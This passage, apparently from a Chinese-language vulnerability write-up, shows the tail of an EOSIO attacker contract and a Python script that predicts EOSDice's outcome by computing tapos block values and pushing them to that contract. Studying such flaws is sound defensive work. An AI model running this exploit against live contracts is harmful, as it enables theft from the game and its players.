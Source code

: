 ```c++
      if( code == self || code == N(eosio.token)) { \
         if( action == N(transfer)){ \
                eosio_assert( code == N(eosio.token), "Must transfer EOS"); \
         } \
         TYPE thiscontract( self ); \
         switch( action ) { \
            EOSIO_API( TYPE, MEMBERS ) \
         } \
         /* does not allow destructor of thiscontract to run: eosio_exit(0); */ \
      } \
   } \
}

EOSIO_ABI_EX( attack,
        (hi)
)
```

### 攻击脚本

下面，我们的测试攻击脚本，完成的功能是获取最新的块和块的id，计算出`EOSDice`开奖`action`的`tapos_block_prefix`和`tapos_block_num`，发送给上一个测试攻击的合约。

```python
import requests
import json
import os
import binascii
import struct
import sys

game_id = sys.argv[1]
# get tapos block num
url = "http://127.0.0.1:8888/v1/chain/get_info"
response = requests.request("POST", url)
res = json.loads(response.text)
last_block_num = res["head_block_num"]
# get tapos block id
url = "http://127.0.0.1:8888/v1/chain/get_block"
data = {"block_num_or_id":last_block_num}
response = requests.post(url, data=json.dumps(data))
res = json.loads(response.text)
last_block_hash = res["id"]
# get tapos block prefix
block_prefix = struct.unpack("<I", binascii.a2b_hex(last_block_hash)[8:12])[0]
# attack
cmd = '''cleos push action attacker hi '["%s","%s","%s"]' -p attacker@owner''' % (str(game_id), str(block_prefix), str(last_block_num))
os.system(cmd)
```


